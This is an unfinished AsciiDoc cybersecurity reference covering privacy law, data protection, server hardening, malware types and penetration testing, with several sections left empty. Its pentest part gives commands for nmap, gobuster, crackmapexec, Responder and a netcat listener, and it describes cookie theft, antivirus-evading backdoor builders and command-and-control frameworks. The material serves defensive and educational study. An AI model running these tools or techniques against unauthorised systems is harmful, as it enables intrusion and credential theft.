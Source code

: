 = CyberSecurity: A Comprehensive Reference
Doc Writer <smsharif@secunoid.com>
v1.71, 15th March, 2020
:numbered:
:sectnum:
:sectnumlevels: 5
:chapter-label:
:toc: right
:toclevels: 5
:docinfo:
:docinfo1:
:docinfo2:
:description: This document covers all aspects of cybersecurity
:keywords: cybersecurity, it security, compliance, risk management
:imagesdir: images
:stylesheet:
:homepage: https://www.securityprivacyrisk.com
'''


<<<
== Overview
Everything in this world is centered around information, knowledge, which translates into a generic term _data_.  This data can be about individuals, places, or things.  Regardless of who or what it is about it is important to protect it.

=== Non-living Entities
Data about non living entities when modified leads to mis-information and currently in the digital age our ability to provide the authenticity of that data is very difficult.  If the source is trustworthy, then we deem it authentic, currently there are no mechanisms to ensure that the data has not been modified in between from when the trustworthy source released and to the time it got to you.

=== Living Entities
Data about living entities, especially us humans is very valuable.  With the devices we carry, and use in our daily lives, we are constantly producing data, every hour, every second of our lives. 

<<<
== Privacy
Centralization has very damaging impacts to a users privacy.  Once the user has provided their information to an entity, they are at entities' mercy for data protection.

Certain states want to keep 

Data that is being processed by the solution should care fully considered for:

. Data protection: Based on data classification ensure data is protected in storage and in transit.
. Data retention: Based on regulatory, and industry requirements,  data should be retained for 
. Data access & update: Allow end users ability to access their data and modify it as required.

Governments across the world are responding to the global cybersecurity crisis by creating new regulations that govern the way companies handle and store valuable consumer data. This includes important information such as personal identifications, banking and credit card numbers, and purchase history.

The European Union, in particular, has been a leader in this field. One of its pioneering efforts is the General Data Protection Regulations (GDPR) what was passed in 2016 and went into effect in Spring 2018. It impacts all companies that do business with European customers, regardless of where the company is located.

The GDPR requires that companies receive consent from consumers before processing data, collect and store data anonymously, and notify customers when their information has potentially been breached. It also requires large businesses to appoint a data privacy protection officer to oversee implementation of the regulations.

Furthermore, while the U.S. federal government has yet to create a set of strong data privacy protections, several states have drawn up their legislation, including Hawaii, Massachusetts, Maryland, Mississippi, New Mexico, and Washington.

However, the most important of these regulations come from California, the largest state in the country by population with nearly 40 million residents. The California Consumer Privacy Act (CCPA) goes into effect on January 1, 2020, and governs the way companies must store and secure data.

CCPA allows consumers to demand crucial information about their personal data held by corporations.

When requested, businesses must inform consumers about the type of personal data they possess, provide them with specific personal information collected in the previous year, and allow customers to request that their information not be shared with third parties. Companies will also have to delete customer data when requested.



<<<
== Data Protection

=== Methodology
. Define what to classify
. Define where to classify
. Define who applies classification
. Define conditions
. Assign labels to users and groups
. Define Access rights
. Create classification policies
. Test Classification policies
. Deploy classification policies
. Monitor and accelerate remediation

=== Know your data
. Where is my sensitive data 
located? 
. What are the risky activities happening in my organization – files shared externally, across 1st and 3rd party apps?
. I need to comply with a new regulation? Where is my PII data located & where is it being generated? 
. How do I control data sprawl and build a strategy for ROT before I bring data
. How do I see activity around classification and labeling across retention and sensitivity labels once they have been used across governance and retention outcomes?
. How do I monitor  ongoing risk around label activity?


=== Password Strength
Brute force password cracking - the importance of using a long password with a mix of uppercase, lowercase and special characters.

Assuming an attacker has a reasonably fast connection and PC, the table is an estimate of the amount of time it would take to generate every possible combination of passwords for a given number of characters. After generating the list it's just a matter of time before the computer runs through all the possibilities – or gets shut down trying.

Pay particular attention to the difference between using only lowercase characters and using all possible characters (uppercase, lowercase, and special characters – like @#$%^&*). Adding just one capital letter and one asterisk would change the processing time for an 8 character password from 2.4 days to 2.1 centuries.

via Dan Williams (https://www.linkedin.com/in/ACoAAACDV6ABaDOtrduFQ5p-c5qgSka1HHTseAY/?lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BxdsE5HnqTDulyw2QOn9mCw%3D%3D)

image::PasswordLengthComplexityCrackingTime.jpg[]

<<<
== Information Security 
Information Security as you can infer, all about information protection.  Before the advent of internet information was stored in corporate data centers and they had mechanisms in place to protect the information.  The two main areas that are focused are logical and technical security.

=== Logical Security
Logical controls are about physical aspects of the information protection.  The computer system is housed in a building in a particular area.  Depending on the sensitivity of the information various mechanisms are put in place like:

* Fenced building perimeter
* Gates at the entry and exit points
* Guards manning those gates to ensure that only authorized individuals are allowed through the gates

Now working through the layers just like peeling an onion. You have gone through the first layer the perimeter. Now once in the perimeter it has to be ensured:

* Ensuring protections are in place to prevent vehicles damaging the building via direct impacts
* Split the building into zones with different levels of access levels for the personnel and this can be gated & guarded area
* Ensure computer room is in the middle of the building without any window access
* The computer room can be split into zones depending on the sensitivity of the information
* Access to these zones can be gated and guarded
* Assets within these zone would be placed in cabinets that are again secured via lock and key

=== Technical Security
Now that we have addressed the physical security aspects Once inside the computer room, this is where information security starts to take shape.  All the computers in the computer room will need to be accessed by the users.  People with different levels of access would be physically separated into specific areas.  For instance Super users were in a different physical space than regular users.

With the advent of networking,TCP/IP, and better access control mechanisms in operating systems that requirement to physically segregate users started to diminish.

That requirement to physically segregate users with different levels of access via gates and guards moved to the network and operating system level and this is where information security started to take a foot hold.

Applications that operated on top of the operating system implemented fine grained access mechanisms for the users.

The gates and guards started getting replaced by electronic locks with pin pads and cameras.  Whereby to prove that you were authorized to access an area, you would have the PIN to the door which you would use to get access.  

The PIN pads later got replaced by card access, where you had to scan your card to enter an area.

As you can see a lot of Physical Security controls are also moving into information security space whereby the cameras that are recording and the recording management software, the card access system and access management are all managed by applications that are operating on top of an operating system running on a computer system.

Enter Information Security, which at the most fundamental level is the basis for:

* Information Technology Security
* System Security
**  Network Security
**  Application Security
*** Database Security
* Cyber Security

This book will cover the various aspects of implementing an Information Security Program at an organization of any size. You don't have to be a huge organization to have an information security program.  If you are in business you are collecting, storing, and transmitting all kinds of information and it important that you know how to ensure that information is protected at all times.  If it is not then maybe your business might be at risk.

<<<
== Security Organization
For Security to be taken seriously a security organization is mandatory, while the non operational team would report to the CISO, the operational structure can be based on two models:

. Centralized
. Distributed

In centralized operational model, all aspects of security operations are within the security organization, such as:

. User provisioning/deprovisioning
. Security Information & Event Management (SIEM)
. Security Operations Center
. Incident Response
. Firewall & Network Operations

In a decentralized operations model, the above aspects are managed by different business units with the security organization providing oversight in form of GRC.

=== Security Operations
A robust mechanism must be instituted to ensure all systems are baselined and any deviation from the baseline is reported to the SOC  for action.
All critical components must be monitored at all times, and SIEM   leveraged to discover anomalies and ensure they are addressed in a timely fashion.

=== Security Architecture

=== Security Development

=== Security Strategy

<<<

== Security Policy
Before any solution is implemented, a security policy must be created to ensure all the industry, regulatory,  and other compliance requirements are documented.  This document will provide the security requirements to ensure the deployment is secure. All the requirements should be very high level without delving into implementation details.

<<<
== Security Manual
This document goes into details on the how the security policy requirements must be implemented.  It can be one document, or multiple depending on the size of implementation.

<<<
== Security Standards
Standards are mandatory requirements that must be adhered to. Some of the standards to be considered are:

=== Windows Web Server Hardening

*Services*

* Unnecessary Windows services are disabled.
* Services are running with least-privileged accounts.
* FTP, SMTP, and NNTP services are disabled if they are not required.
* Telnet service is disabled.

*Protocols*

* WebDAV is disabled if not used by the application OR it is secured if it is required.
* TCP/IP stack is hardened
* NetBIOS and SMB are disabled (closes ports 137, 138, 139, and 445).

*Accounts*

* Unused accounts are removed from the server.
* Guest account is disabled.
* IUSR_MACHINE account is disabled if it is not used by the application.
* If your applications require anonymous access, a custom least-privileged anonymous account is created.
* The anonymous account does not have write access to Web content directories and cannot execute command-line tools.
Strong account and password policies are enforced for the server.
* Remote logons are restricted. (The “Access this computer from the network” user-right is removed from the Everyone group.)
* Accounts are not shared among administrators.
* Null sessions (anonymous logons) are disabled.
* Approval is required for account delegation.
* Users and administrators do not share accounts.
* No more than two accounts exist in the Administrators group.
* Administrators are required to log on locally OR the remote administration solution is secure.

*Files and Directories*

* Files and directories are contained on NTFS volumes
Web site content is located on a non-system NTFS volume.
* Log files are located on a non-system NTFS volume and not on the same volume where the Web site content resides.
* The Everyone group is restricted (no access to \WINNT\system32 or Web directories).
* Web site root directory has denied write ACE for anonymous Internet accounts.
* Content directories have deny write ACE for anonymous Internet accounts.
* Remote  administration application is removed
* Resource kit tools, utilities, and SDKs are removed.
* Sample applications are removed

*Shares*

* All unnecessary shares are removed (including default administration shares).
* Access to required shares is restricted (the Everyone group does not have access).
* Administrative shares (C$ and Admin$) are removed if they are not required (Microsoft Management Server (SMS) and Microsoft Operations Manager (MOM) require these shares).

*Ports*

* Internet-facing interfaces are restricted to port 80 (and 443 if SSL is used)
* Intranet traffic is encrypted (for example, with SSL) or restricted if you do not have a secure data center infrastructure.

*Registry*

* Remote registry access is restricted.
* SAM is secured (HKLM\System\CurrentControlSet\Control\LSA\NoLMHash).

*Auditing and Logging*

* Failed logon attempts are audited.
* IIS log files are relocated and secured.
* Log files are configured with an appropriate size depending on the application security requirement.
* Log files are regularly archived and analyzed.
* Access to the Metabase.bin file is audited.
* IIS is configured for W3C Extended log file format auditing.

*Server Certificates*

* Ensure certificate date ranges are valid.
* Only use certificates for their intended purpose (For example, the server certificate is not used for e-mail).
* Ensure the certificate’s public key is valid, all the way to a trusted root authority.
* Confirm that the certificate has not been revoked.

<<<
== Security Guidelines

<<<
== Cryptography

Cryptographic Blinding

<<<
== Digital Identity

Digital Identity is a bridge that connects the physical and the digital world.  You can call them Personna's in a digital world.

Cost of financial intermediation is been going up due to regulation.

According to Europol we are spending about $20b to intercept 0.15% of the fraudulent flows of money.

<<<
== Training & Education

=== Phishing

==== GoPhish
An opensource toolkit to generate phishing campaigns for organizations to test their employee phishing knowledge
Link: https://github.com/gophish/gophish/releases/


<<<
== Application Security
The scope of application security would be the 


=== Code Analysis

==== Microsoft Application Inspector
Microsoft Application Inspector is a software source code analysis tool that helps identify and surface well-known features and other interesting characteristics of source code to aid in determining what the software is or what it does. It has received attention on ZDNet, SecurityWeek, CSOOnline, Linux.com/news, HelpNetSecurity, Twitter and more and was first featured on Microsoft.com.

Application Inspector is different from traditional static analysis tools in that it doesn't attempt to identify "good" or "bad" patterns; it simply reports what it finds against a set of over 400 rule patterns for feature detection including features that impact security such as the use of cryptography and more. This can be extremely helpful in reducing the time needed to determine what Open Source or other components do by examining the source directly rather than trusting to limited documentation or recommendations.

The tool supports scanning various programming languages including C, C++, C#, Java, JavaScript, HTML, Python, Objective-C, Go, Ruby, PowerShell and more and can scan projects with mixed langauge files. It also includes HTML, JSON and text output formats
Link: https://github.com/microsoft/ApplicationInspector

==== PEpper
An open source tool to perform malware static analysis on Portable Executable
Link: https://github.com/Th3Hurrican3/PEpper


=== Key Management

<<<
== System Security
All the servers that the distributed ledger platform runs on must be:

. Hardened
. Monitored for availability
. Intrusion Detection/Intrusion Protection mechanisms deployed to protect from attacks coupled with SIEM for proactive defense.
. Based on the security be in a DMZ 

<<<
== Vulnerability Management Program
Red team-blue team exercises take their name from their military antecedents. The idea is simple: One group of security pros — a red team — attacks something, and an opposing group — the blue team — defends it. Originally, the exercises were used by the military to test force-readiness.

=== Deep vs Dark Web
Dark web is every resource where hackers & criminal underground engage with each other.  Tor is a mechanism that is used as a transport for the dark web.

image::DeepWebDarkWeb.jpeg[]

Source: https://heimdalsecurity.com/blog/deep-web-vs-dark-web-what-is-each/ 


=== Pastebin

=== Taxonomy
Taxonomy is important as it ensures industry standard terms are used when talking about vulnerabilities, threat actors, and reporting.

==== Attacks

image::TypesOfAttacks.jpg[]

==== Malware
A malware is any piece of software that was written with the intent of damaging devices, stealing data, and generally causing a mess. Viruses, Trojans, spyware, and ransomware are among the different kinds of malware.

Malware is often created by teams of hackers: usually, they’re just looking to make money, either by spreading the malware themselves or selling it to the highest bidder on the Dark Web. However, there can be other reasons for creating malware too — it can be used as a tool for protest, a way to test security, or even as weapons of war between governments.

image::TypesOfMalware.jpg[]

* *Adware* Though not always malicious in nature, aggressive advertising software can undermine your security just to serve you ads — which can give other malware an easy way in. Plus, let’s face it: pop-ups are really annoying.

* *Bots* Bots is a soft for roBot. Bots are usually controlled remotely and work as a network.

* *Keylogger* It is one of the most dangerous threats to a PC user's privacy. This type of malware installs itself as a result of clicking while browsing the Internet or downloading software. Keyloggers keep track of all of your keystrokes when you are using your PC and then transfers the information to a remote server. It is capable of recording all of your online conversations, emails, and password logins, as well as creating screenshots of all of your PC activity.

Keyloggers are not always in the form of malware or software; it can also be installed on your computer in the form of hardware through being placed between the plug on your keyboard and the entry port. Some keyloggers are legitimate applications such as those that record an employee's PC activity during work hours. Other keyloggers are in the form of malicious software that is designed to perform criminal activity.

* *Ransomware* This kind of malware typically locks down your computer and your files, and threatens to erase everything unless you pay a ransom.

* *Remote Access*

* *Rootkit*

* *Spyware* No surprise here — spyware is malware designed to spy on you. It hides in the background and takes notes on what you do online, including your passwords, credit card numbers, surfing habits, and more.

* *Trojans* This kind of malware disguises itself as legitimate software, or is hidden in legitimate software that has been tampered with. It tends to act discreetly and create backdoors in your security to let other malware in.

* *Virus* Like their biological namesakes, viruses attach themselves to clean files and infect other clean files. They can spread uncontrollably, damaging a system’s core functionality and deleting or corrupting files. They usually appear as an executable file (.exe)

* *Worm* Worms infect entire networks of devices, either local or across the internet, by using network interfaces. It uses each consecutively infected machine to infect others.

=== Vulnerability Assessment
Vulnerability Assessment is designed to find vulnerabilities and assess to ensure they are not false positives. The next step is to remediate the vulnerability by patching the system, reconfiguring it, or implementing other controls to reduce the risk. 

=== Penetration Testing
Penetration testing, or pen testing for short, is an authorized attack against your computer system to discover and exploit vulnerabilities.  This activity is also known as ethical hacking.  

Penetration testing is a technical control that is implemented to ensure the systems that are currently in production or are going to be production do not have any vulnerabilities that would allow threat vectors to exploit.

The Penetration Testing Execution Standard (PTES) provides the necessary guidelines on how to conduct penetration testing.  More information can be found here: http://www.pentest-standard.org/index.php/Main_Page 

Penetration Testing goes further than vulnerability assessment.  After a vulnerability is identified, the tester attempts to exploit a vulnerability. This can be done numerous ways and, once a vulnerability is exploited, a good tester will not stop. They will continue to find and exploit other vulnerabilities, chaining attacks together, to reach their goal. Each organization is different, so this goal may change, but usually includes access to Personally Identifiable Information (PII), Protected Health Information (PHI), and trade secrets. Sometimes this requires Domain Administrator access; often it does not or Domain Administrator is not enough.

Penetration testing involves following steps:
. Reconnaissance via open source intelligence (OSINT) gathering techniques.  IT does not involve probing any or your devices, but gathering as much information publicly available about your environment using internet sources. 
. Scanning your network to identify active devices
. Fingerprint active devices to identify operating system and applications installed
. Find vulnerabilities for the services running on your systems
. Exploiting those vulnerabilities
. Once the vulnerability has been exploited, further probing the system to seek valuable information such as PII (Personally Identifiable Information) etc.
. Try to further explore other systems on the network and exploit them if possible.
. Produce a report that identifies vulnerabilities, which ones were exploited, what was the outcome of exploitation and suggest high level remediation steps.

There are three approaches to Penetration Tests:
. Black Box: No knowledge of th infrastructure.
. White Box: Full knowledge of the infrastructure.
. Grey Box: Some knowledge of the infrastructure.

Penetration Tests can include following scopes:
. External
. Internal
. Web application
. Wireless
. Cloud
. Social

==== Penetration Testing Methodology

===== Reconnaissance
. Open Source Intelligence Gathering
.. Look for sub-domains:

	sublist3r -d <domainname> -t3 -o <filename.txt>

.. Look for sub-domains, users, etc:

	theharvester -d <domainname> -b all -f <outputfilename>

. Discovery Scan

	nmap -sC -sV -oA foldername/filename IPAddress
	nmap -sC -sV -oA foldername/filename -iL <inputfilename>

. Recon scan all ports
	
	nmap -p- -v -oA foldername/filename-allports IPAddress

. If webservers are found perform web server enumeration:

	dirb -d <domainname> 
	gobuster 

. Take notes of all the findings and also include screen captures.
. 

==== Penetration Testing Tools

===== Arpspoof

===== Bloodhound
BloodHound is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a PowerShell/C# ingestor.

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

BloodHound is developed by @_wald0, @CptJesus, and @harmj0y.

Wiki: https://github.com/BloodHoundAD/Bloodhound/wiki

===== Burp Suite
Burp Suite is a web application testing tool

Use vulnerable web application from the OWASP site: https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project/Pages/Offline  

===== Cookie Crimes

If you steal someone’s Chrome cookies, you can log in to their accounts on every website they’re logged in to.

Normally you need the user’s password to do it, but I found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol.

Link: https://github.com/defaultnamehere/cookie_crimes

===== CherryTree
Chery Tree is a note taking app

===== Chisel

===== Crackmapexec
CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

Link: https://github.com/byt3bl33d3r/CrackMapExec

Usage:
	crackmapexec smb <IP Of Domain Controller> -u <username> -p '<password>'

===== DIRB

DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

DIRB comes with a set of pre-configured attack wordlists for easy usage but you can use your custom wordlists. Also DIRB sometimes can be used as a classic CGI scanner, but remember is a content scanner not a vulnerability scanner.

DIRB main purpose is to help in professional web application auditing. Specially in security related testing. It covers some holes not covered by classic web vulnerability scanners. DIRB looks for specific web objects that other generic CGI scanners can’t look for. It doesn’t search vulnerabilities nor does it look for web contents that can be vulnerable.

Source: http://dirb.sourceforge.net/about.html
DIRB Homepage | Kali DIRB Repo

Author: The Dark Raver
License: GPLv2

https://tools.kali.org/web-applications/dirb 

===== Dirbuster

===== DNSCAT
DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.
Link: https://www.hackingarticles.in/dnscat2-command-and-control-over-the-dns/?

===== DNSSPOOF

===== Empire
Empire 3.0 is a post-exploitation framework that includes a pure-PowerShell 2.0 Windows agent, and compatibility with Python 2.x/3.x Linux/OS X agents. It is the merger of the previous PowerShell Empire and Python EmPyre projects. The framework offers cryptologically-secure communications and a flexible architecture. On the PowerShell side, Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework. PowerShell Empire premiered at BSidesLV in 2015 and Python EmPyre premeiered at HackMiami 2016. BC-Security presented updates to further evade Microsoft Antimalware Scan Interface (AMSI) and JA3/S signatures at DEF CON 27.

Empire relies heavily on the work from several other projects for its underlying functionality. We have tried to call out a few of those people we've interacted with heavily here and have included author/reference link information in the source of each Empire module as appropriate. If we have failed to properly cite existing or prior work, please let us know at Empire@BC-Security.org.

Empire is developed by @harmj0y, @sixdub, @enigma0x3, @rvrsh3ll, @killswitch_gui, @xorrior, and @bcsecurity1. While the main fork for Empire is no longer maintained, this fork is maintained by BC-Security and will continue to receive periodic updates.

https://github.com/BC-SECURITY/Empire/ 

===== Ettercap

===== Exiftool
Shows exif data about a file.   To ensure you get the correct date time meta data, always use wget.

===== Eyewitness

===== Evilarc
evilarc.py is an archiving tool that allows for folder manipulation.

===== FatRat
TheFatRat by Edo Maland, is a massive exploiting tool which compiles a malware with famous payloads, generate backdoor that allows easy post exploitation attacks such as browser attacks etc.. and then the compiled maware can be executed on Linux , Windows , Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Link: https://www.blackhatethicalhacking.com/tools/thefatrat/


===== Ghidra
Ghidra is a software reverse engineering (SRE) framework created and maintained by the National Security Agency Research Directorate. This framework includes a suite of full-featured, high-end software analysis tools that enable users to analyze compiled code on a variety of platforms including Windows, macOS, and Linux. Capabilities include disassembly, assembly, decompilation, graphing, and scripting, along with hundreds of other features. Ghidra supports a wide variety of processor instruction sets and executable formats and can be run in both user-interactive and automated modes. Users may also develop their own Ghidra plug-in components and/or scripts using Java or Python.
Link: https://ghidra-sre.org/

===== Gitleaks

Link: https://github.com/zricethezav/gitleaks

===== Gobuster

Gobuster is a tool used to brute-force:

* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).

Install

	sudo apt-get install gobuster

Usage

Scan a website (-u http://192.168.0.155/) for directories using a wordlist (-w /usr/share/wordlists/dirb/common.txt) and print the full URLs of discovered paths (-e):

	*Using dirb word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirb/common.txt -o filename.txt
	*Using dirbuster word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt
	*Using a cookie* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt -c 'cookievariable=valie'


[horizontal]
Source:: https://github.com/OJ/gobuster
Author:: OJ Reeves
License:: Apache-2.0
Syntax:: gobuster dir -u http://<site-name or IP address>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirbust-root.log

===== Hashcat

===== HTTPROBE
[horizontal]
Github:: https://github.com/tomnomnom/httprobe
Perform a scan on specific ports:: cat domains.txt | httprobe -s -p https:8443


===== Hydra

===== Impacket-secretsdump

===== JQ
jq is like sed for JSON data - you can use it to slice and filter and map and transform structured data with the same ease that sed, awk, grep and friends let you play with text.

jq is written in portable C, and it has zero runtime dependencies. You can download a single binary, scp it to a far away machine of the same type, and expect it to work.

jq can mangle the data format that you have into the one that you want with very little effort, and the program to do so is often shorter and simpler than you’d expect.

More information here: https://stedolan.github.io/jq/

===== Kali Linux

[horizontal]
Install ntpdate package:: sudo apt-get install ntpdate
Sync date & time with ntp source:: sudo ntpdate in.pool.ntp.org
Install all the tools on Kali:: sudo apt-get install kali-linux-full
Kali Tools Listing:: https://en.kali.tools/all/
Update Kali:: sudo apt-get update; sudo apt-get dist-upgrade;sudo apt-get clean

===== LinEnum
Linux enumeration & privilege escalation checks

Link: https://github.com/rebootuser/LinEnum

===== Metabigor
Metabigor is Intelligence tool, its goal is to do OSINT tasks and more but without any API key.

Link: https://www.kitploit.com/2020/02/metabigor-intelligence-tool-but-without.html

===== Maltego

===== Maryam
OWASP Maryam is an Open-source intelligence(OSINT) and Web-based Footprinting modular framework BASED on The Recon-ng and written in Python.
Link: https://www.owasp.org/index.php/OWASP_Maryam_Project 

===== Mentalist
Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper.
Link: https://github.com/sc0tfree/mentalist/blob/master/README.md

===== Metasploit

[horizontal]
On Kali metasploit is in this directory:: /usr/share/metssploit-framework
To Update metasploit:: apt update; apt install metasploit-framework
Metasploit Online Database:: https://www.rapid7.com/db/modules

===== Mimikatz
Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.

Link: https://github.com/gentilkiwi/mimikatz

===== Netcat

nc -lvnp 9001

===== Nikto
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.

Nikto is not designed as a stealthy tool. It will test a web server in the quickest time possible, and is obvious in log files or to an IPS/IDS. However, there is support for LibWhisker's anti-IDS methods in case you want to give it a try (or test your IDS system).


Not every check is a security problem, though most are. There are some items that are "info only" type checks that look for things that may not have a security flaw, but the webmaster or security engineer may not know are present on the server. These items are usually marked appropriately in the information printed. There are also some checks for unknown items which have been seen scanned for in log files.

https://cirt.net/Nikto2 

===== NESSUS

Install Instructions:: http://www.hackandtinker.net/2013/10/16/how-to-install-setup-and-use-nessus-on-kali/

===== NMAP

===== Powershell Empire
Empire has an inbuilt listener named http_hop which allows us to redirect our traffic to one of our another active listener after getting an agent. Thus, the name hop as it hops the agent from one listener to another in order to redirect traffic.

Similar to Metasploit, the hop listener in empire uses a hop.php file. When you activate the hop listener, it will generate three PHP files that will redirect your existing listener. Place the said files in your jump server (ubuntu) and then set up your stager in according to get the session through the mediator i.e. our hop listener.
Link: https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/

===== Pupy
Pupy is a cross-platform, post exploitation tool as well as a multi-function RAT. It’s written in python which makes it very convenient. It also has low detectability that’s why it’s a great tool for the red team.  Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

It uses a reflected DLL to load python interpreter from memory which is great as nothing will be shown in the disk. It doesn’t have any special dependencies. It can also migrate into other processes. The communication protocols of pupy are modular and stackable. It can execute non-interactive commands on multiple hosts at once. All the interactive shells can be accessed remotely.
Link: https://www.hackingarticles.in/command-control-tool-pupy/

===== Responder
This tool is first an LLMNR and NBT-NS responder, it will answer to *specific* NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409). By default, the tool will only answers to File Server Service request, which is for SMB. The concept behind this, is to target our answers, and be stealthier on the network. This also helps to ensure that we don’t break legitimate NBT-NS behavior. You can set the -r option to 1 via command line if you want this tool to answer to the Workstation Service request name suffix.

Usage Example
Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):

	responder -i 192.168.1.202 -w On -r On -f On

===== Sbmclient

===== Sharp Cookie Monster

If you steal a users Chrome cookie, you can log into their accounts on every website they are logged into.

